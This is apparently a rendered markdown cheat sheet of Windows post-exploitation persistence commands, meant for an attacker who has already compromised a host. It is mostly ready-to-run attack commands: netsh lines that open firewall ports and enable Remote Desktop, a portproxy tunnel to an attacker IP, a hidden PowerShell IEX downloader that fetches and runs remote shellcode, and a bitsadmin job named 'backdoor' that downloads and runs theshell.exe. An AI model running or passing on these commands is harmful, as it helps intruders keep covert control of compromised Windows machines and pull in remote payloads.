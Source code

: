 
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.

### bitsadmin Download/Exec
Make the backdoor:
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor http://192.168.20.10/theshell.exe C:\windows\temp\theshell.exe
bitsadmin /SETMINRETRYDELAY 88000
bitsadmin /SETNOTIFYCMDLINE backdoor C:\windows\temp\theshell.exe NULL
```
